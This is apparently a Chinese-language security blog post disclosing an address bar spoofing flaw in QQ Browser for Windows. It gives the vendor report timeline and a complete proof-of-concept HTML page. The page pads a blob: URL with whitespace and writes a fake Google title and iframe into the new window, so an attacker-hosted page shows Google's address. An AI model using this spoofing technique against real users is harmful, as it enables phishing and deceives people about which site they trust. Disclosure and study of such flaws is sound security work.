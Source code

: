 ```yaml
---
layout: post
title: QQ Browser For Windows - Address Bar Spoofing Vuln
---
```

- 2017-03-28 16:25:39	用户报告了该漏洞。
- 2017-03-28 17:14:43	感谢您的反馈，问题评估中，我们可能会联系您以获得您的协助。
- 2017-03-31 15:56:06	管理员结束了该漏洞，再次感谢您的报告，如有疑问可评论回复。

官方不认为是漏洞所以可以直接公开，漏洞出现在打开构造的 blob 伪协议时对判断显示有问题，导致我们可以构造页面进行欺骗：

	// view-source: http://server.n0tr00t.com/qqbrowser/urlspoofing.html
    <html>
    <body>
    <a href="blob:http://www.google.cn                                                                                                                                                                                                                                                                                                                                       @server.n0tr00t.com"  onclick=setTimeout("test()",100) target="w">goto google</a>    <script>
    function test() {
        x = window.open('', 'w');
        x.document.write("<title>Google</title>");
        x.document.write("<iframe src='http://www.google.cn/' style='width: 100%;height: 100%;border: 0;'></iframe>");
    }
    </script>
    </body>
    </html>

![](https://ws1.sinaimg.cn/large/c334041bgy1fe63hjic0cj21s40r20xx.jpg)

其他浏览器对上述问题的处理：

![](https://ws1.sinaimg.cn/large/c334041bgy1fe63nzkgvhj21qh15pth7.jpg)